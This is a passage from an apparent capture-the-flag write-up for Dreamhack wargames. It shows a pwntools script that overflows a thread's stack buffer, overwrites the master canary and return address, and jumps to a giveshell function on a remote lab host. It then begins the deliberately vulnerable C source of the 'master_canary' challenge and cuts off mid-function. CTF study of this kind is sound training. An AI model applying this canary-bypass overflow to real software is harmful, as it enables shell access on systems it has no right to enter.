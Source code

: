 ### Exploit

```python
from pwn import *

#p = process("./mc_thread")
p = remote("host3.dreamhack.games", 15907)
e = ELF("./mc_thread")

payload = b"A"*256
payload += b"A"*8
payload += b"A"*0x10
payload += p64(e.symbols["giveshell"])
payload += b"A"*(0x948 - len(payload))
payload += b"A"*0x8

p.sendlineafter("Size: ", str(len(payload)))
p.sendafter("Data: ", payload)

p.interactive()
```

## Wargame: [master_canary](https://dreamhack.io/wargame/challenges/58)

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <pthread.h>

char *global_buffer;

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}

void *thread_routine() {
    char buf[256];

    global_buffer = buf;

}
void read_bytes(char *buf, size_t size) {
    size_t sz = 0;
    size_t idx = 0;
    size_t tmp;

    while (sz < size) {
        tmp = read(0, &buf[idx], 1);
        if (tmp != 1) {
```